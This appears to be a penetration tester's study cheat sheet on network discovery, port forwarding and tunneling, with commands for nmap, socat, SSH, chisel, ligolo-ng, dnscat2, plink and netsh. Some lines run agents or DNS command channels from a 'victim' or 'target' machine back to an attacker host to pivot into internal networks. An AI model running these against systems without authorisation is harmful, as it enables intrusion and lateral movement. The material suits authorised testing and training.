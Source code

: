 # 🚢 Port Redirection and Tunneling

## Ping Sweep

```shell
# Linux
nmap -v -sn x.x.x.1-253
nmap -sn x.x.x.0/24

for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
for ip in 192.168.1.{1..254}; do ping -c1 -W1 $ip &>/dev/null && echo "$ip is up"; done
fping -a -g 192.168.1.1 192.168.1.254 2>/dev/null

# Windows CMD
for /L %i in (1,1,254) do @ping -n 1 -w 100 192.168.1.%i | find "Reply"
# Windows PowerShell
1..254 | % {"172.16.6.$($_): $(Test-Connection -Count 1 -ComputerName 172.16.6.$($_) -Quiet)"}
```

## Port Redirection

### Socat

```shell
socat TCP-LISTEN:<local_port>,fork TCP:<ip>:<port>
```

## Port Forwarding

### SSH Local Port Forwarding

```shell
# forwards local machine port 8080 to a remote machine's port 80
ssh -L 8080:localhost:80 user@ssh_server
```

### SSH Remote Port Forwarding

```shell
# forwards a remote machine's port 80 to the local machine's port 9090
ssh -R 127.0.0.1:9090:<target>:80 user@kali_machine
```

### Chisel

```shell
# create server 
chisel server --port 8080 --reverse

# create client on remote machine
chisel client <local_host>:8080 R:<local_port>:localhost:<remote_port>
```

### Ligolo
``` enter into ligolo on kali after starting tunnel, everything the agent recieves on 1234 goes to kali 4444 port:
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444
```

## Tunneling

### Ligolo

> <https://github.com/nicocha30/ligolo-ng/releases>

```shell
# create ligolo interface
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# start the proxy on attacker machine
./li-proxy -selfcert -laddr 0.0.0.0:443

# upload the agent to the target machine and start it
./li-agent -connect <attacker_ip>:443 -ignore-cert
agent.exe -connect <attacker_ip>:443 -ignore-cert

# the connection will be displayed in the proxy
session # choose the session
ifconfig # show subnets of the agent
# add the subnet to the routing table
sudo ip route add <subnet> dev ligolo
# back in ligolo, start it
start
```

### Chisel

```shell
# create server 
chisel server --port 8080 --reverse --socks5

# create client on remote machine
chisel client <local_host>:8080 R:socks

# add the port assigned by chisel to /etc/proxychains.conf
# use proxychains to interact with the internal network 
sudo proxychains <command>

# create a client and add extra port forwarding (useful to access a web page from a browser)
./chisel client <local_host>:8080 R:socks R:4545:localhost:80

The format is:

R:<REMOTE_PORT>:<DEST_IP>:<DEST_PORT>
REMOTE_PORT (9001) → The port opened on Kali (because the Chisel server is running there with --reverse)

DEST_IP:DEST_PORT (192.168.45.236:9001) → Where the traffic is forwarded from MS01 to Kali:9001


```

### SSH Dynamic Port Forwarding

```shell
# creates a dynamic tunnel between local host and target
ssh -D 9050 user@10.4.213.215

# add port to /etc/proxychains4.conf
socks5 127.0.0.1 9050

# use proxychains to interact with the internal network 
sudo proxychains <command>
```

### DNS Tunneling

```shell
dnscat2-server feline.corp

# from the victim machine
dnscat feline.corp

# from the server
windows -i <id>
? for help
```

### Sshuttle

```shell
# creates a VPN-like tunnel between networks
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```

## Windows Tools

### ssh.exe

```shell
# creates a dynamic reverse tunnel between the current host and the attack host
ssh -N -R 9998 kali@192.168.45.171

# configure proxychains in /etc/proxychains4.conf
socks5 127.0.0.1 9998

# use proxychains to interact with 
sudo proxychains <command> <ip>
```

### Plink

```shell
# creates an SSH tunnel from a local port to a remote service
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

### Netsh

```shell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

# show active interfaces
netsh interface portproxy show all
```

